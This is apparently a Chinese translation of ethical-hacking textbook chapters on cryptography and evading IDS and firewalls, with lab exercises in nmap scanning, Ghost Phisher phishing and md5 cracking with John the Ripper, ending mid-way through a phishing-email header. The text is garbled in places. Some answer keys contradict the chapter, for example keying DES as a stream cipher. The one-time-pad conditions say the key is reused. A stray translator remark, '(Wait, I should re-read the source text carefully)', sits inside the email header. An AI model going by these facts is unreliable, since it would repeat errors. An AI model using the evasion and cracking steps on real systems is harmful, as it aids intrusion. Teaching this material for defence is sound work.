云系统和 IoT 系统近期经历了前所未有的增长，并将继续以非常快的速度发展。然而，从本质上说，计算概念仍然相同，漏洞也是如此。多个交互点的增加增加了攻击面，因此在发布之前对系统进行彻底分析变得非常重要。


有助于有效保护这些系统的研究领域之一是密码学。加密和哈希过程不仅在传统系统中，而且在现代云和 IoT 平台上对于保障信息安全起着巨大作用。我们将在下一章中详细介绍这些概念，以及密码学的实际实现。

# 测试你的理解能力

1. **一家金融财团决定迁移到云端。数据高度敏感且私。他们应该选择哪种云部署？**

   - 公有云
   - 私有云
   - 社区云
   - 混合云

2. **以下哪项不是虚拟化产品？**

   - VMware ESXi
   - Nutanix AOS
   - Citrix Hypervisor
   - MSI Afterburner

3. **以下哪项包含专门针对支付接口的云标准？**

   - HIPPA
   - ISO 27001/ISO 27002
   - PIC DSS
   - ISO 2717

4. **以下哪项是通过被称为一组抽象的方法来集成各种传感器的 IoT 中间件？**

   - 开源中间件标准
   - 全球连接网络
   - 开源连接系统
   - 全球传感器网络

5. **以下哪个搜索引擎是专门为搜索 IoT 设备设计的？**

   - Bing
   - Google
   - Shodan
   - OneSearch

# 答案

1. **b**
2. **d**
3. **c**
4. **d**
5. **c**

# 第 16 章 密码学

## 引言

信息从一个点到另一个点传输过程中的保密需求在整个历史上一直存在。已知历史上最早的密码学形式之一是凯撒密码，罗马人用它来加密发送到战场的战时信息。

从简单的分组密码和替换密码到更复杂的加密算法，密码学领域随着隐私和秘密的需求不断演进。

## 结构

我们将在本章中涵盖以下主题：

* 密码学基础
* 加密标准
* 公钥基础设施和 `SSL`
* 数字签名
* 哈希
* 密码分析

本章探讨了通过对数据进行程序处理来隐藏数据的艺术与科学，使其在通信和存储过程中无法被未经授权的方获取。通过本章的学习，读者将对加密实践及其应用有一个基础性的理解。在本章结束时，你应该能够识别出加密的需求，并识别和区分信息系统在不同用例下所需的各种解决方案。

## 加密原语

加密学是保护数据和通信免受未经授权的访问和修改的实践。加密函数的主要目标是将数据转换为一种拦截者无法理解但预定接收者可以轻松解释的格式。此类数据被称为密文。其底层理念是：无论信道多安全，都不可避免会有泄漏。因此，加密函数必须具备以下特质：

* 它必须是**安全的**，以便使得拦截者难以理解信息的内容。
* 它必须是**成本最优的**，因为加密操作会消耗 CPU 计算周期和其他资源。
* 它必须是**时间高效的**，因为数据在需要时非常重要。过时数据没有价值，因此，如果安全措施不允许及时访问数据，那么这种安全性将不会产生实际影响。


**图 16.1:** 加密权衡

加密最古老的实际用途之一是罗马人在“凯撒密码”中实施的。这种技术也被称为位移密码，它将语言中的每个字符替换为与其距离固定长度的字符，该距离被称为“位移”。对于英语而言，位移 2 位意味着密文与[图 16.2]中的内容匹配。


**图 16.2:** 凯撒密码

上述密文将把给定的句子转换为如下内容：

明文消息：A QUICK BROWN FOX.

密文：C SWKEM DTQYP HQZ.

尽管凯撒密码看起来易于破解，但它因其简单性而广受欢迎，并在密码学界具有学术意义。它为许多更复杂的位变换技术奠定了基础。然而，直到公共加密标准（`DES`）的发展和公钥加密的发明，该领域在公共领域才获得了重要性。

今天，加密学可以根据使用密钥从加密函数获取输出的方法主要分为两个部分：

1. 对称密钥加密
2. 公钥加密

## 对称密钥加密

在发送者和接收者之间使用单一加密密钥进行加密和解密被称为对称或私钥加密。发送者和接收者都拥有相同密钥的副本，当该密钥用于加密函数时，返回密文；当它用于镜像解密函数时，输出原始消息。由于密钥需要从发送者传递给接收者，密钥本身的安全性变得至关重要。因此，通常会避免随消息传输密钥，通常会使用预先约定的密钥。


**图 16.3:** 对称密钥加密

对称密钥算法根据其处理数据模式分类如下：

* **流算法**：加密发生在系统中即时存在的数据上，通常一次处理一个字节的数据。这些算法速度快，且更适合硬件实现。

  

  **图 16.4:** 流密码生成

* **分组算法**：加密发生在固定块的数据集上。因此，系统首先将待加密的数据划分成固定大小的块，然后进行加密。这些算法在软件中更容易实现，但比流密码慢。

  

  **图 16.5:** 分组密码生成

常见的对称密钥算法包括：

* `DES`：数据加密标准，分组密码
* `AES`：高级加密标准，分组密码
* `Blowfish`：飞轮算法，分组密码
* `RC4`：Rivest 4，流密码

## 非对称密钥加密

使用相互关联的不同密钥进行加密和解密的过程被称为非对称或公钥加密。密钥集因此包含两种类型：由接收者公开分发给发送者用于加密的公钥，以及只有预定接收者才拥有的私钥。这种方法消除了传输加密密钥的需求，因为密钥不再用于加密。


**图 16.6:** 非对称加密

非对称密钥加密在现代加密系统中有两个主要用途：

* **公钥加密**：非对称密钥加密最重要的用例可能是公钥加密。公钥加密允许接收者公开分发公钥用于加密目的，而无需担心解密过程被破解。一旦消息到达预定接收者处，就可以由仅存在接收方的私钥进行解密。最常见的例子是用于整个互联网的 `SSL` 加密。这是一个通过多个公钥交换并基于公钥加密原理运行的系统。

  

  **图 16.7:** 公钥基础设施

## 哈希

加密旨在为传输过程中的消息提供一种检索机制，而哈希是一种通过数学函数对消息进行单向处理的机制，生成与消息相关的固定或变长的唯一摘要，且该摘要无法还原为原始消息。因此，哈希不是加密的手段，而是起到为消息提供唯一标识的作用。哈希函数的一些重要属性如下：

* **确定性**：哈希函数对于相同的输入必须返回相同的哈希值。
* **抗碰撞**：哈希函数应产生最少碰撞，即两个不同输入产生相同哈希值的概率必须极低。
* **分布性**：哈希函数应该将哈希值均匀分布在哈桶中。

哈希已用于多种应用，例如：

* **凭据存储**：密码在哈希处理后存储在数据库中，从而即使发生数据泄露，也很难获取原始密码。
* **数据校验**：哈希值可验证文档内容。发送者可以附加消息的哈希值，接收者可以通过生成接收消息的哈希值并与收到的哈希值进行对比，从而完成匹配。
* **索引**：均匀分布的哈希函数可以根据哈希值桶对值进行索引，以实现快速搜索和检索。事实上，存在许多基于哈希及其结果索引的广泛使用的数据结构。

哈希冲突是指哈希函数的两个或多个输入产生相同哈希值的情况。哈希函数的设计通常旨在尽可能地避免冲突。这通过选择能够生成近似均匀分布且大小与预估变化量相适应的哈希值函数来实现。例如，如果预期的待哈希查询数量为 100，那么该哈希函数至少能够生成 100 个值。然而，这种紧凑的尺寸会使得设计避免冲突的哈希函数变得困难。因此，哈希值通常分布在比涉及数值数量大得多的空间中。

## 数字签名

数字签名就像物理签名一样，用于验证文档或信息的真实性。要使用数字签名签署文档，发送者必须使用适当的算法生成一对公钥和私钥。然后通过私钥对消息或文档的哈希进行加密。加密后的消息发送给拥有发送者公钥的接收方。在收到数字签名的消息后，接收者使用公钥通过签名验证器对其进行处理，以验证消息是否真实或经过了任何修改。


**图 16.8:** 数字签名

## 隐写术

隐写术是将信息隐藏在另一组信息中的技术，通常是将一个文档隐藏在另一个文档或文件中。这可以通过多种数字方式实现，例如：


**图 16.9:** 隐写术

* 将信息位作为有损图像字节形成中的模式进行隐藏。
* 在高帧率视频中隐藏图像帧。
* 将信息编码到声音文件中。
* 将数据附加到文件未使用的区域。
* 以模式将消息嵌入到文本文件中。

隐写术的考虑点是，传输介质理想不应发生显著且可观测的改变，以免引起怀疑。

## 密码分析

既然有如此多的加密技术，人们可能会认为有很多方法可以保护信息。密码分析的工作正是为了打破这种观念。它是通过分析密码函数、密文和其他数据来揭示底层信息的技术。该过程的目的是在不知道密码密钥的情况下破解加密或哈希等密码函数。

在尝试破解密码系统时，对于攻击者通常符合以下情况之一：

* 攻击者知道加密算法，但不知道密钥。
* 攻击者知道密钥，但对加密算法一无所知。
* 攻击者拥有某些解密信息与其对应的加密部分的对。
* 攻击者拥有大量的加密数据，对加密信息的类型有所了解，但没有解密对。
* 攻击者拥有哈希值，但不知道哈希函数。
* 攻击者拥有哈希，知道哈希函数，但不知道盐（salt）组件。
* 攻击者对涉及的过程或执行密码函数时利用的执行周期有所了解。

在上述任何情况下，攻击者都致力于获取可识别的模式，并对可能的密码函数进行暴力破解。例如，在哈希密码泄露的情况下，攻击者会针对可能的密码函数分析哈希模式。同样，攻击者可以将已知明文与密文进行映射。

一次性口令长期以来被认为是不可破解的。真正使其变得不可破解的因素是：

1. 密钥长度与消息等长。
2. 密钥是完全随机的。
3. 发送者和接收方都拥有密钥的副本。
4. 密钥使用超过一次（注：此处原文可能逻辑错误，通常应为“不使用超过一次”，此处遵循原文翻译）。


**图 16.10:** 一次性口令

中间相遇攻击类似于暴力破解攻击，攻击者尝试从明文端开始加密，从密文端开始解密，并在中间汇合。侧道攻击倾向于通过监控执行的密码函数来分析密码系统的属性。类似的攻击技术称为计时攻击，利用操作的执行时间。

### 密码分析工具

密码分析是一个资源密集型过程，随着硬件配置的进步而改进。例如，彩虹表包含了巨大的密文和明文对字典。同样，还有许多在线工具可以分析消息对应的密文。

### CRANK

CRANK 代表 `CRyptANalysis toolKit`，旨在提供一个灵活高效的环境，以尽可能自动化的方式解决传统的（纸笔）密码。单字母替换将字母表中的每个字母连续映射到文本中的另一个（通常是不同的）字母是传统密码的例子。


**图 16.11:** Crank 界面

### CryTool

CrypTool 帮助你在愉快的环境中学习加密和解密算法，并将你的密码学和密码分析技能付诸实践。它们根据包含的算法反映了经典和现代密码系统。三重 `DES`、`Blowfish` 和 `RC4` 是现代方法的例子，而 Enigma 算法、凯撒密码和双列置位密码是经典方法的例子。

`HMacMD5` 算法可生成文本认证码，`AES` 可用于加密和解密消息，而 `SHA1` 可用于伪随机数据。


**图 16.12:** Cryool 界面

### EverCrack

EverCrack 是一个基于 GPL 许可的开源密码分析引擎，能够对单字母替换密码和置位密码进行密码分析。它目前可以在几毫秒内破解多达 `4000` 个单词，且速度随着密文的增大而增加，使其成为一种高效的 `O(log n)` 算法。


**图 16.13:** Evercrack 界面

它还可以加密英语、德语、法语、西班牙语、意大利语、荷兰语、瑞典语和葡萄语等语言的单字母替换密码。


**图 16.14:** EverCrack 解密界面

## 结论

总而言，密码学已应用于各种信息交换和存储过程中。然而，必须理解，仅仅加密一段信息并不能保证安全。每条信息在 Sign 意义、价值和属性方面都是独特的，需要为其定制的加密标准。你不能使用箱密码（box cipher）加密导弹发射代码并寄希望于好。同样，用军级加密加密你的厨房门锁钥匙是不现实的。与所有安全措施一样，密码学也需要在成本、努力和可用性之间取得微妙的平衡。

到此，我们涵盖了攻击循环的基础知识以及进入系统并获取信息所需的方法和工具。在下一章中，我们将熟悉规避安全措施和隐藏入侵的艺术。它将涵盖尽可能长时间让攻击或泄露不被发现的重要性，以及绕过安全措施而不是尝试禁用它们。

## 单选题

1. **下列哪项不是公钥基础设施（PKI）的一部分？**

   1. 验证者
   2. 发行机构
   3. 证书权威机构
   4. 破解者

2. **哈希函数应该具备以下哪些属性？**

   1. 哈希值的均匀分布
   2. 低碰撞率
   3. a 和 b
   4. 仅 b

3. **隐形术可以在音频文件上进行。**

   1. 正确
   2. 错误

4. **`DES` 属于哪种密码分类？**

   1. 流密码
   2. 块密码
   3. 哈希
   4. 以上均不是

5. **彩虹表用于什么？**

   1. 公私钥对分析
   2. 流密码分析
   3. 哈希值和明文分析
   4. 块密码分析

## 答案

1. **d**
2. **b**
3. **a**
4. **a**
5. **c**

# 第 17 章 规避安全措施

## 引言

在本书中我们讨论了保护系统和识别漏洞的各种技术和工具。现在我们将转向系统是如何安全的，以及允许攻击的可能漏洞。

## 结构

我们本章将涵盖以下主题：

* 环境中的安全机制
* 评估安全需求
* 威胁建模
* 入侵检测
* 规避安全措施

## 目标

本章讨论了所需的准备工作和技术。在本章结束时，你将能够：

* 分析应用程序预期的威胁水平
* 理解激活此类功能所需的配置
* 识别可能的攻击以及编码期间可以采取的预防措施

## 信息安全

随着系统的演进和对系统依赖的日益增加，保护系统的需求已不再可以忽视。安全措施可以归类为：

1. 应用级安全
2. 服务器级安全
3. 网络级安全
4. 硬件和基础设施安全
5. 人员安全

### 应用级安全

这包括开发过程中所采取的安全措施，以确保代码中没有后门。这可以通过以下工具实现：

1. **静态代码分析工具**：如 `Agnitio`、`Checkmarx`、`SonarQube`、`FindBugs` 等构成了第一道防线。由于这些工具都有现成的插件，因此很容易纳入应用程序开发和生命周期中。大多数静态代码分析工具还会生成可以在团队内分发的详细报告。


**图 17.1:** Agnitio 分析界面

2. **使用安全标准和框架**：指开发人员在编写应用程序时使用经过测试的框架。了解库的底层实现有助于避免未处理的异常和错误。对于身份验证等常用功能，使用认证的代码始终是良好的实践，而不是重新发明轮子重新开发整个系统，这可能导致检查缺失和测试不完整。当然，可能会出现需要新开发或扩展现有代码库的场景。此类场景需要经过彻底测试。大多数标准框架往往内置包含了一些功能，以防止会话固定、`XSS` 等漏洞。然而，应该根据应用程序预期的威胁水平以及激活此类功能所需的配置进行分析。

3. **网络交互测试**：应用程序在部署到生产环境之前，应对其网络交互进行测试。网络交互的评估可以标记系统向其他系统发出的任何意外请求。在应用程序拥有第三方库或使用开源框架的情况下这一点尤为重要。


**图 17.2:** Microsoft 消息分析器

### 监控与日志管理

使用 `Grafana`、`Kibana` 等工具进行有效监控，有助于映射应用程序的状态和交互。这可以轻松标记诸如 `DOS` 和暴力破解等攻击。日志可以帮助确定被利用或被攻击的路径。此外，在发生泄露的情况下，日志有助于识别受影响的账户和服务。

### 服务器级安全

服务器是应用程序基础设施不可分割的一部分，因为它们托管并提供应用程序及其资源。即使在无服务器部署中，始终会有底层的服务器软件执行服务器操作。因此，有必要像保护实际应用程序一样保护服务器。服务器安全防护包括：

* 及时使用供应商提供的任何安全补丁对服务器进行更新。
* 在服务器停止支持的情况下，提前规划服务器升级。
* 加固服务器以阻断默认配置和配置文件。
* 限制使用未经测试的插件。
* 监控服务器活动以发现恶意足迹。
* 基于以下因素限制对服务器的访问：
    1. 身份验证
    2. 网络限制
* 以访问日志和进程日志的形式记录服务器活动。

### 网络级安全

网络安全变得非常重要，因为它是所有通信流经的地方。加密和 `SSL` 等措施可以保护通信，但第一层防御应始终是从源头上阻断任何意外或恶意的交互。试图利用网络带宽的攻击（如拒绝攻击）可以通过在网络层拦截恶意流量来处理。针对特定的 IP 范围或组织也可以采取类似的措施。网络级监控还可以标记尝试性攻击、负载点以及网络上不必要的服务器交互。

网络监控的另一个方面是识别连接到网络的资源。它还应该包括对机器及其外围状态的监控。

一些网络级安全措施包括：

1. **防火墙**：防火墙是一种网络组件、硬件或软件，用于监控进出网络的流量。防火墙可以被可视化为两个系统之间的筛，只允许特定数据包通过。进出防火墙的数据包流基于配置的规则。通用防火墙规则包括：


**图 17.3:** 防火墙

入站和出站 IP 访问规则

1. 端口访问规则
2. 子网访问规则
3. 数据包配置规则


**图 17.4:** Windows 防火墙配置

此外，防火墙可以包含信任参数或资源，这些资源可用于绕过访问规则。

可以根据需要防护的层配置专用防火墙，例如数据库防火墙、云防火墙、网络分段防火墙等。

防火墙的其他分类是根据它们工作的 OSI 模型层划分的，即工作在网络层的`数据包过滤防火墙`、工作在会话层的`电路级网关防火墙`以及工作在应用层的`应用级防火墙`。

2. **代理服务器**：代理服务器是作为两个网络之间网关的服务器。因此，流经两个网络之间的所有流量都会监控。代理服务器分类为：

   

   **图 17.5:** 代理服务器

   1. `透明代理`服务器不告知对方。
   2. `匿名代理`服务器不告知对方。
   3. `混淆代理`服务器不告知对方。
   4. `高匿名代理`服务器不告知对方。

3. **负载均衡器**：这些是用于在服务器之间分配负载的系统。因此，负载均衡器维护请求状态。负载均衡器的自动扩展可以确保系统能够处理突增的流量。

4. **API 网关**：API 网关是处理服务请求的代理。它们可多种用途，如 SSL 终止、协议转换、限流等。常见的 API 网关包括 `Amazon API gateway`、`Kong` 等。

5. **硬件与基础设施安全**：硬件资产的物理安全与网络或软件组件同样重要。未经授权的访问通常在现场进行。基础设施安全包括以下措施：

   - 网络组件白名单，防止恶意系统加入网络。
   - 物理访问控制，限制授权用户对系统的访问和使用。
   - 系统审计以评估系统状态。
   - 将硬件和网络划分为不同的访问级区域，以实施统一的访问策略。

   

   **图 17.6:** DMZ 架构

   一种常见的安全实践是将网络划分为公共区域和私有区域。这包括一个包含所有公共服务器的**非军事化区**（**DMZ**）。这些通常是 Web 服务器和邮件服务器。DMZ 通过不同的防火墙与私有网络和外部网络隔离开。

   另一个防火墙之后是生产区域，包含应用程序和数据库服务器。此外，一个划定的企业网络（包括开发区和测试区）与生产区域并行，其之间有网络限制。

6. **人员安全**：企业间谍活动是每年报告的安全泄露的主要诱因之一。对网络有一定了解并拥有访问权限的不满或前用户是这方面令人关注的关注。这需要：

   - 基于需要原则的访问策略及其及时更新
   - 用于追踪的访问日志管理
   - 针对企业安全策略的员工培训和合规结构。

 **蜜罐**（Honeypots）是伪装成网络攻击预期目标的特殊系统。它们用于将攻击从合法系统中转移，并让攻击者忙碌。通常，蜜罐被用于诱捕攻击者暴露可识别身份的信息，以便进行风险缓解和法律诉讼。


**图 17.7:** 微软威胁建模工具

威胁建模是指指明信息系统的组件及其相互作用，以便识别可能的攻击面和攻击向量。在安全开发生命周期中，威胁建模是系统设计不可或缺的一部分，可以帮助在设计和开发阶段就缓解大多数风险。市场上上有许多工具可以帮助构建相互作用和攻击面的视觉化表示。`Vanguard` 开发的 `SecuriCAD`、`Microsoft Threat Modelling Tool` 等都是一些广泛使用的威胁建模工具。


**图 17.8:** SecuriCAD 威胁建模系统

# 入侵检测系统 (IDS)

入侵检测系统是专门设计的软件或硬件组件，用于识别对底层系统的未经授权或非法的访问。IDS 可以集成在信息系统的各个层级中，例如物理访问点、管理门户网站访问、资源使用、文件系统等。

根据底层检测技术的不同，IDS 一共有三种类型：

- **基于规则的 IDS (Rule-based IDS)**：这些入侵检测系统根据输入给它们的特定规则工作。这些规则包括对资源的访问规则，将资源访问限制在组用户或特定时间内。基于规则的 IDS 可以识别并限制违反其规则的未经授权访问尝试。

- **基于行为的 IDS (Behavior-based IDS)**：行为型 IDS 通过为访问系统的用户构建可识别的模式来工作。这些模式基于它们随时间收集的训练数据，例如用户访问系统时的行为。这些行为可以是特征，如用户登录时的特征访问模式或打字速度。

- **混合型 IDS (Hybrid IDS)**：这些 IDS 同时采用基于规则的配置和行为识别。

常见的 IDS 工具包括 `Snort`、`IBM Security Network Intrusion Prevention System`、`Silver Sky` 和 `Tipping point`。

# 入侵防御系统 (IPS)

虽然 IDS 主要工作是检测恶意活动并对系统管理员的操作发出警报，但所采取的行动往往不够快以防止损失。随着信息系统变得越来越关键，通常希望系统具有自动的预防和恢复机制。

IPS 部署用于根据预定义的规则（可能是基于签名、异常或策略的）以标准操作程序的形式执行缓解措施。例如，在检测到 DOS 攻击时，IPS 可以阻止某个 IP 或整个子网访问系统。同样，它们还可以通过与基准流量对比来检测传输过程中的恶意文件。`Palo Alto`、`Forcepoint` 和 `Checkpoint` 等供应商提供了从标准威胁管理解决方案到下一代防火墙的各种解决方案。

# 规避安全措施

渗透信息系统的主要部分是识别安全措施并绕过它们以获取访问。另一个重要方面是防止目标系统识别攻击者和恶意流量，以确保匿名性并维持访问。每种安全措施可能需要或不需要特殊的规避技术。因此，这涉及到对已部署 IDS 的识别。这通常通过类似于服务器识别技术（如横幅抓取 banner grabbing、端口扫描、防火墙探测 firewalking 等）的识别技术完成。常见的规避措施包括：

1. **恶意数据包或流量构造**：这包括修改恶意请求的内容以避免检测。这种技术的一个常见例子是，当系统不接受原始字符时，攻击者尝试通过输入其编码值来在输入中传递特殊字符。

   另一种技术涉及数据包分片，攻击者不会一次性发送完整的恶意数据包，而是以分片数据包的形式发送，并在目标端进行重组。

2. **直接攻击 IDS**：这涉及直接针对 IDS 系统使其失效。对 IDS 服务器进行 DOS 攻击是一种常见策略，旨在压垮 IDS 然后继续进行攻击。一种更巧妙的技术是通过执行“半生子”攻击在入侵检测系统中产生虚假警报，这些攻击不执行任何操作，但会触发 IDS 警报。随后可以伴随实际攻击，而实际攻击很可能会隐藏在报告的虚假报警中。

3. **IP 地址欺骗**：将标头信息和源地址位修改为特定的 IP 地址称为 `IP 地址欺骗` (IP address spoofing)。IP 欺骗可用于欺骗服务器使其认为请求源自不同的源（通常是不同的地理位置）。这有助于服务器仅允许来自特定 IP 地址的请求，或攻击者想要隐藏真实 IP 地址的场景。一种被称为 `源路由` (source routing) 的高级技术允许攻击者指定数据包在网络中传输的路由。

4. **端口转发**：端口转发或隧道技术是将一个协议封装在另一个协议中的过程。这使用户可以使用网络不支持的协议。隧道技术的常见实例包括 `HTTP 隧道` (HTTP tunnelling)，攻击者通过将受限协议封装在 HTTP 数据包中来进行封装。`SSH 隧道` (SSH tunnelling) 也可以类似地转发其他协议。

5. **代理服务器**：攻击者可以使用代理服务器访问由于网络或防火墙限制而无法通过实际网络访问的系统。其工作方式与 IP 欺骗类似，目标服务器感知真实的源 IP，该 IP 被代理服务器 IP 屏蔽。高级方法包括串联多个代理服务器，即代理链。

`Tor` 是最广泛使用的高级匿名代理系统之一。通过使用代理链的概念，tor 网络在请求到达实际目标服务器之前，通过全球一系列可用的代理服务器路由数据包。这确保了源系统 IP 地址的匿名性，因为它在到达服务器之前被更改了多次。要追溯请求到原始源是非常乏味的，尤其在路由通过不同国家进行的情况下的情况下。

# 基于关联的检测

追踪请求到实际源的一种重要方法（特别是在欺骗或使用代理地址的情况下）是基于关联的。其工作原理是数字系统通常会响应返回带有会话和 Cookie 等跟踪参数的负载。当同一个会话在未使用规避系统的情况下激活时，这些参数就会与用户关联。让我们通过一个例子来理解这一点。

Bob 建立了一个大型代理链对 `abcxyz.com` 进行攻击。一旦代理链建立，Bob 访问 `abcxyz.com` 并开始进行攻击。与此同时，`abcxyz.com` 作为提供定制化用户体验的常规做法，在浏览器中投放会话对象。

攻击执行后，Bob 关闭了浏览器但没有注意到会话对象。第二天，他打开浏览器并在 `abcxyz.com` 来检查攻击的影响。`abcxyz.com` 发现 Bob 浏览器中已存在一个会话对象，将其活动与该会话对象关联。因此，`abcxyz.com` 现在可以将攻击与 Bob 关联，并从当前会话中提取他的 IP 地址。

类似的技术被广泛应用于更复杂的实现中，以捕获网络犯罪分子。分析内容包括浏览习惯关联、数据包分析、一段时间内无活动、网络连接、账户的连续使用等。

这要求非常谨慎地使用规避技术，并将测试资产与个人资产（包括电子邮箱和社交账户）隔离开。

## 结论

在执行恶意活动的同时保持入侵不被检测是至关重要的，特别是当人员需要长时间利用系统时。匿名性要求也是理所当然的，除非需要通过黑客攻击发表个性化陈述。在需要提取大量信息，或者或者攻击涉及多个与目标环境反复交互的阶段的情况下，检测可能会导致整个行动的失败。

相反，对于系统所有者来说，了解规避技术和流程使他们能够做好更好的准备，并在任何影响发生之前封堵漏洞。威胁建模器和分析器等工具有助于架构师预防性地为系统设计安全解决方案，而不是在系统部署后才着手。

在完成黑客周期和所有理论概念后，现在是时候采取一些实际行动了。下一章将向你介绍一些让你处于真实渗透测试场景的实际任务。

# 检验你的理解

1. **可以通过以下哪些方法识别防火墙？**
    1. 标志标志抓取
    2. 火墙探测
    3. 端口扫描
    4. 以上所有

2. **代理服务器用于以下哪些目的？**
    1. 隐藏 IP 地址
    2. 流量监控
    3. a 和 b
    4. 以上都不是

3. **蜜罐的用途是什么？**
    1. 为终端用户优雅地处理服务器错误
    2. 通过 SSL 封装确保网络流量安全
    3. 引诱攻击者攻击模拟服务器
    4. 允许攻击者攻击生产服务器以衡量影响

4. **端口转发可以用于？**
    1. 为某服务实现网络不支持的协议
    2. 通过防火墙阻塞端口
    3. 允许服务器的所有端口接收 FTP 流量
    4. 禁止服务器的所有端口接收 FTP 流量

5. **DMZ 基础设施从公网开始遵循哪种流程？**
    1. 公网 -> 防火墙 -> 生产环境 -> 防火墙 -> DMZ
    2. 公网 -> 防火墙 -> DMZ -> 内部网络 -> 防火墙
    3. 公网 -> 防火墙 -> 内部网络 -> 防火墙 -> DMZ
    4. 公网 -> 防火墙 -> DMZ -> 防火墙 -> 生产环境

# 答案

1. **d**
2. **c**
3. **c**
4. **a**
5. **d**

# 第 18 章：渗透测试与恶意软件攻击实战练习

虽然认证伦理黑客（CEH）有一门独立的课程 CEH - Practical，处理整个课程中涵盖的各种工具和技术的实际实验室工作，但我们在这里尝试涵盖一些基础内容，以便对书中讨论的工具有一个良好的了解和掌握。

## 结构

我们本章将涵盖以下内容：

- 练习题及其解决方案

## 目标

接下来的练习将涵盖使用标准工具集及其分步执行过程的某些基础渗透测试活动。虽然这不是当前课程的强制要求，主要目标是让读者熟悉一些工具和渗透测试技术。

## 练习 1

**问题描述**：使用 `nmap` 映射连接到你本地网络的所有设备。

### 解决方案

Nmap 是一种非常常用的网络映射工具。它提供了多种查询选项来扫描网络，如子网过滤、OS 扫描、Ping 扫描等。它还有一个名为 `Zenmap` 的图形版本。

1. 使用 `ipconfig/ifconfig` 确定你系统的 IP。

   

   **图 18.1**：确定系统 IP

2. 在控制台中中打开 `nmap` 以验证安装。

   **输入**：`nmap -h` 显示 `nmap` 菜单。

   如果缺少 `nmap`，请从此处下载：[`nmap.org/download.html`](https://nmap.org/download.html)。

   

   **图 18.2**：Nmap 帮助

3. 在你网络的完整 IP 范围内使用 `-sn -sP` 参数执行 `nmap` 扫描，以确定活动主机及其 MAC 地址。

   ```
   nmap -sn -sP 192.168.1.1-255
   ```

   

   **图 18.3**：Nmap 扫描活动主机

4. 在目标机器上使用 `-O` 参数对发现的机器进行 OS 扫描。

   

   **图 18.4**：Nmap 扫描主机

## 练习 2

**问题描述**：使用 Ghost Phisher 准备一次钓鱼攻击。

### 解决方案

Ghost Phisher 是一个用 Python 创建的无线安全审计程序。它可以模拟接入点并部署。

1. 在你的系统中打开 Ghost Phisher。

   

   **图 18.5**：Ghost Phisher 界面

2. 导航到伪服务器选项卡。

3. 将 HTTP 接口设置为回环地址。

4. 将 IP 地址设置为 `127.0.0.1`。

5. 在“真实 IP 地址或网站”中输入 `http://www.example.com`。

6. 点击 `Start`。

   

   **图 18.6**：捕捉模式下的 Ghost Phisher

7. 在你的系统中打开浏览器并导航到 `127.0.0.1`。

   

   **图 18.7**：钓鱼网站

8. 返回 Ghost Phisher 应用程序查看控制台中的活动。

## 练习 3

**问题描述**：使用 John the Ripper 破解 md5 哈希密码。

### 解决方案

John the Ripper 是一种适用于多种操作系统的密码安全审计恢复程序。

1. 如果你的系统没有预安装 John，请从 [`github.com/openwall/john`](https://github.com/openwall/john) 安装。

2. 打开终端。

3. 想一个密码并使用以下命令从终端获取其 md5 哈希：

   ```
   echo -n <password> | md5sum
   ```

   

   **图 18.8**：创建密码的 md5 哈希

4. 创建一个文本文件并将希保存其中，不要带末尾空格或连字符符。

5. 使用以下命令运行 John：

   ```
   john --format=raw-md5 <filename.txt>
   ```

请注意，在进行基于哈希的攻击时，应用程序并不总是能破解精确的密码，也可以确定另一个具有相同哈值的短语（哈希碰撞）。在现实场景中，这等同于获得了精确密码。

## 练习 4

**问题描述**：检查下方的邮件源，判断其是否为尝试性的钓鱼邮件，并给出你断言的理由。


```
Delivered-To: abc@gmail.com
Received: by 2002:a54:3f90:0:0:0:0:0 with SMTP id c16csp3697889ecq;
Sun, 20 Dec 2020 13:52:52 -0800 (PST)
X-Google-Smtp-Source: ABaSd3qeef4fff1OMnd8Tdy/RwFKXqjxAQ6skw8IJqhog6twX2X6H77Ujnb/yECJ
X-Received: by 2002:a5d:60cb:: with SMTP id x11mr15647079wrt.0.1608501172214;
Sun, 20 Dec 2020 13:52:52 -0800 (PST)
ARC-Seal: i=1; a=rsa-sha256; t=1608501172; cv=none;
d=google.com; s=arc-20160816;
=JhothCHuMFkiCNRxydh54NVsdefsdfdsfVilaf7CIYksc0+lcI55ettaYfrONbq
7FLG0Ec5fWrJAJPABIdajGnd46VFDVFDfSfwefrfu2Mwn7zrLzfKVasGSJIG/uh038734plY5G
/zTJVHG7Pi0rQ1xxb6dsfsfsdfdsfsdfPMvBOnJFVl73mj6Lr2fas HmZ4rl4p0hJ6ZCSOPgUj5IU+pe8rzgoXqm08CP wsnqohYhxiKGxJSH7j/XGAW6BXWFh/Nk4ttElKVWSzv5VOIOzt34I1aTisMuhVFD6csC 2GoXzddeffcLv9zF/AiK7qkEv6wcIOFAUhG7uOPBhM1gKegBPw==
ARC-Message-Signature: i=1; a=rsa-sha256; c=relaxed/relaxed; d=google.com; s=arc-20160816;
h=date:mime-version:reply-to:message-id:subject:to:from;
bh=8xMiN6Szb9+06utIYLzHq7sTGE6Vwe42zw4q+ZpLuB0=;
b=gPNtVHbXTAgf1bobY76xcPIU70DVETWfb8XDX8DSj/Ujt0LmxcT51T9IckicmCjnaXxEd      ooYcQS2F9AP0F2kngJTFyWMnWtTBoFiDewiArnGxRgtA6Z9BCQW8mU8Zp/83xazBcPWM
A9gn4yLyUu8mHq53IkbMj5OKIZlP/t3A722BN6aA2CIiY5/o4ujrfHS5S8AiUhrgwKHU      7Klbzi8UlNnaiiscewfdewvsu3xFhZWTpFVGERQHt2VJVU0Ql8OTRQfvJZPHSkepzOr/a
OOpjFHrhYwQR+U0UfgQgMEhob50LliVMh99tJIE4k6f5WcGHjd+PqnJpncxT8aoaGEaU ZBvw==
ARC-Authentication-Results: i=1; mx.google.com;
spf=softfail (google.com: domain of transitioning return@aol.com does not designate 93.115.10.136 as permitted sender) smtp.mailfrom=return@aol.com
Return-Path: <return@aol.com>
Received: from meetabsence.co.uk (meetabsence.co.uk. [93.115.10.136])
by mx.google.com with ESMTPS id p5si13191160wre.92.2020.12.20.13.52.51
for <abc@gmail.com>
(version=TLS1_2 cipher=ECDHE-ECDSA-CHACHA20-POLY1305 bits=256/256);
Sun, 20 Dec 2020 13:52:52 -0800 (PST)
Received-SPF: softfail (google.com: domain of transitioning return@aol.com does not designate 93.115.10.136 as permitted sender) client-ip=93.115.10.136;
Authentication-Results: mx.google.com;
spf=softfail (google.com: domain of transitioning return@aol.com does not designate 93.115.10.136 as permitted sender) smtp.mailfrom=return@aol.com
Received: by meetabsence.co.uk id0660sv9e for <abc@gmail.com>; Sun, 20 Dec 2020 13:52:52 -0800 (PST) (Wait, I should re-read the source text carefully)
From: "Security AIert" <info836@5809alerts.org>
To: abc@gmail.com
